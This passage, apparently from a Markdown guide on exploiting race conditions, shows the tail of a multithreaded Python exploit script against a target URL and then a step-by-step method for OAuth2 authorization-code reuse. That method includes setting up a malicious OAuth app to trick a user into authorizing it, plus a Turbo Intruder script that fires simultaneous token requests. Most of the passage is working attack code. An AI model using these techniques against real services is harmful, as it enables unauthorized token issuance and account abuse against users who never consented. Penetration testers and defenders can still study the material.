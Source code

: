        # Create threads for parallel requests with different sessions
       threads = []
       for i, session in enumerate(sessions):
           thread = threading.Thread(
               target=exploit_with_session,
               args=(session, target_url, request_data, i+1)
           )
           threads.append(thread)
       
       # Start all threads simultaneously
       for thread in threads:
           thread.start()
       
       # Wait for all threads to complete
       for thread in threads:
           thread.join()
       
       print("Exploitation attempt completed")
       ```

  - **OAuth2 race conditions**
    1. **Authorization_code exploitation**:
       - Step 1: Set up a malicious OAuth application
       - Step 2: Have a user authorize your application
       - Step 3: Obtain the authorization code
       - Step 4: Prepare multiple token exchange requests using the same code
       - Step 5: Send token requests simultaneously
       - Step 6: Check if multiple valid tokens are issued for the same code
       - Example Turbo Intruder script for OAuth code reuse:
       ```python
       def queueRequests(target, wordlists):
           engine = RequestEngine(
               endpoint=target.endpoint,
               concurrentConnections=10,
               requestsPerConnection=1,
               pipeline=False
           )
           
           # Queue multiple identical token requests with the same auth code
           auth_code = "valid_authorization_code_here"
           
           for i in range(10):
               engine.queue(target.req.replace("AUTHORIZATION_CODE", auth_code), None)
       
       def handleResponse(req, interesting):
           # Look for successful token responses
           if "access_token" in req.response:
               table.add(req)
       ```
       
